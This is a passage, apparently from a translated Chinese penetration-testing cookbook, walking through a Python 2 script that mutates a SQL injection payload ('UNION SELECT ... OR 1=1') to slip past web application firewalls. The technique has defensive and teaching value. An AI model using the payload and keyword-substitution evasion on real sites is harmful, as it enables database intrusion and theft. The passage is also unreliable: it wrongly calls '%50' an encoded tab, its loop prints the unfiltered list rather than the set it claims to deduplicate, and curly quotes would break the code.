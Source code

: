以下屏幕截图是使用此脚本时生成的输出示例：

![How to do it…](graphics/B04044_04_03.jpg)

## 它是如何工作的…

此脚本不需要库！多么令人震惊！我们为要创建的值创建一个空列表，并为要添加的替换值创建一个字典。我已经在其中添加了五个示例值。空格和`%20`通常由 WAF 转义，因为 URL 通常不包含空格，除非请求了不合适的内容。

更具体地说，经过调优的系统可能会转义特定于 SQL 的单词，例如`SELECT`、`AND`和`OR`。这些是非常基本的值，可以根据需要添加或替换：

```
subs = []
values = {“ “: “%50”, “%20”: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
```

我已经将原始字符串硬编码为一个示例，因此我们可以看到它是如何工作的。我已经包含了一个有效的 SQLi 字符串，其中嵌入了上述所有值，以证明其用途：

```
originalstring = “'%20UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
```

我们创建原始字符串的第二个版本，以便为每个替换创建累积结果和独立结果：

```
secondoriginalstring = originalstring
```

我们依次获取每个字典项，并将每个键和值分别分配给参数键和值：

```
for key, value in values.iteritems():
```

我们查看初始项是否存在，如果存在，则用键值替换它。例如，如果存在空格，我们将其替换为`%50`，这是编码的制表符 URL：

```
if key in originalstring:
    newstring = originalstring.replace(key, value)
```

每次迭代，这个字符串都将重置为我们在脚本开始时设置的原始值。然后，我们将该字符串添加到前面创建的列表中：

```
subs.append(newstring)
```

我们使用迭代字符串执行与前面相同的操作，该字符串每一次都会替换自身，以创建一个多编码版本：

```
if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)
```

最后，我们将列表转换为一个集合并逐行返回给用户，从而使列表唯一：

```
subset = set(subs)
for line in subs:
  print line
```
